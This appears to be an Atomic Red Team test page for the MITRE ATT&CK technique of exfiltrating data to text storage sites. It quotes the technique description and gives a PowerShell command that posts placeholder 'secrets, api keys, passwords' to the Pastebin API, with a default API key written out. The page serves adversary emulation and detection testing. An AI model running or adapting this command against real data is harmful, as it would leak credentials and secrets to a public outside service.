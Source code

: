 # T1567.003 - Exfiltration Over Web Service: Exfiltration to Text Storage Sites
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567/003)
<blockquote>Adversaries may exfiltrate data to text storage sites instead of their primary command and control channel. Text storage sites, such as <code>pastebin[.]com</code>, are commonly used by developers to share code and other information.  

Text storage sites are often used to host malicious code for C2 communication (e.g., [Stage Capabilities](https://attack.mitre.org/techniques/T1608)), but adversaries may also use these sites to exfiltrate collected data. Furthermore, paid features and encryption options may allow adversaries to conceal and store data more securely.(Citation: Pastebin EchoSec)

**Note:** This is distinct from [Exfiltration to Code Repository](https://attack.mitre.org/techniques/T1567/001), which highlight access to code repositories via APIs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)](#atomic-test-1---exfiltrate-data-with-http-post-to-text-storage-sites---pastebincom-windows)


<br/>

## Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)
This test uses HTTP POST to exfiltrate data to a remote text storage site. (pastebin)                             
See https://web.archive.org/web/20201107203304/https://www.echosec.net/blog/what-is-pastebin-and-why-do-hackers-love-it

**Supported Platforms:** Windows


**auto_generated_guid:** c2e8ab6e-431e-460a-a2aa-3bc6a32022e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| api_key | Pastebin API key | string | 6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0|


#### Attack Commands: Run with `powershell`! 


```powershell
$apiKey = "#{api_key}"
$content = "secrets, api keys, passwords..."
$url = "https://pastebin.com/api/api_post.php"
$postData = @{
  api_dev_key   = $apiKey
  api_option    = "paste"
  api_paste_code = $content
}
$response = Invoke-RestMethod -Uri $url -Method Post -Body $postData
Write-Host "Your paste URL: $response"
```






<br/>
